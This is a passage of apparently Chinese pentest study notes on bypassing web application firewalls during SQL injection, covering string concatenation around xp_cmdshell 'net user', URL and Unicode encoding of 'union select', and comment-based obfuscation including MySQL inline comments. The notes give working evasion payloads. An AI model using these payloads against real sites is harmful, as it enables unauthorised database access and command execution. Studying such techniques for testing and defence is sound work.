    ```
3. 特殊字符拼接

   * 出现原因：**拼接特殊字符**来绕过WAF检测

   * 用法

     ```
     id=1;exec(master..xp_cmdshell'net user')
     =>  id=1;exec('maste'+'r..xp'+'_cmdshell'+'"net user"')
     ```

###### ③编码绕过

* 出现原因：利用浏览器上的**进制转换或者语言编码规则**来绕过waf
* unicode、HEX、URL、ascii、base64等URL编码

1. URL编码

   * 浏览器会对地址栏中，**非保留字**的字符进行URL编码

   * 用法（可以尝试多次编码绕过）

     ```
     //如果waf拦截了union select
     	1' union select 1,2,3 --+
     => 	1' %75%6E%69%6F%6E %73%65%6C%65%63%74 1,2,3 --+
     ```

2. Unicode编码

   ```
   //如果waf拦截了union select
   	1' union select 1,2,3	(替换了i)
   =>	1' un%u0069on sel%u0065ct 1,2,3
   ```

3. 16进制

###### ④注释绕过

* //、 -- 、/* * /、#、--+、-- -、;、--a、/*! */
* 出现原因：利用**语言函数特性**来绕过waf的规则

1. 普通注释

   * 使用/* * /在构造的**查询语句中插入注释**，规避对**空格的依赖**或**关键字**识别

   * 用法

     ```
     	1' union select 1,2,3
     => 	1' /**/union/**/select 1,2,3
     =>	1' /**/union/**/select 1,2,database/*%!a*/()		# 使用/*%特殊符号*/的形式绕过对/**/的正则过滤
     ```

2. **内联注释**

   * **/*! */**只有mysql能识别

   * 用法

     ```
     1. /*! code*/	内联注释可以用于整个SQL语句中
   ```